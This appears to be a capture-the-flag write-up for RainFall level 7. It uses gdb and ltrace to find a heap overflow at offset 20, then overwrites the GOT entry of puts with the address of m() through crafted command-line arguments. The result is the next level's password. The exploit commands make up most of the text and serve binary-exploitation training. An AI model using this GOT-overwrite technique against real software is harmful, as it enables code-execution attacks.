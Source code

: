 # Level 7

we want to call `m()` to print the password read into the global variable `c`

```shell
level7@RainFall:~$ gdb -q ./level7 
Reading symbols from /home/user/level7/level7...(no debugging symbols found)...done.
(gdb) disas puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    *0x8049928
   0x08048406 <+6>:     push   $0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.
(gdb) p m
$1 = {<text variable, no debug info>} 0x80484f4 <m>
```
0x08049928 value of puts in GOT
0x080484f4 value of m

can't pass argv[2] to gdb, most annoying to get the offset, I assumed 16 but it actually overrides the address of  `b[1]` in the third malloc at a padding of 20

By running `ltrace` we see that we can change the destination address of the second strcpy call:
```shell
level7@RainFall:~$ ltrace ./level7 "ARGV1" "ARGV2"
__libc_start_main(0x8048521, 3, 0xbffff6e4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                = 0x0804a008
malloc(8)                                                = 0x0804a018
malloc(8)                                                = 0x0804a028
malloc(8)                                                = 0x0804a038
strcpy(0x0804a018, "ARGV1")                              = 0x0804a018
strcpy(0x0804a038, "ARGV2")                              = 0x0804a038
fopen("/home/user/level8/.pass", "r")                    = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++

level7@RainFall:~$ ltrace ./level7 $(python -c 'print "A"*20 + "\x28\x99\x04\x08"') "ARGV2"
__libc_start_main(0x8048521, 3, 0xbffff6d4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                = 0x0804a008
malloc(8)                                                = 0x0804a018
malloc(8)                                                = 0x0804a028
malloc(8)                                                = 0x0804a038
strcpy(0x0804a018, "AAAAAAAAAAAAAAAAAAAA(\231\004\b")    = 0x0804a018
strcpy(0x08049928, "ARGV2")                              = 0x08049928
fopen("/home/user/level8/.pass", "r")                    = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

So we can use it to overwrite the Global Offset Table value of `puts` with the address of `m`.
```shell
level7@RainFall:~$ ./level7 $(python -c 'print "a"*20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')                        

5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1668625280
```

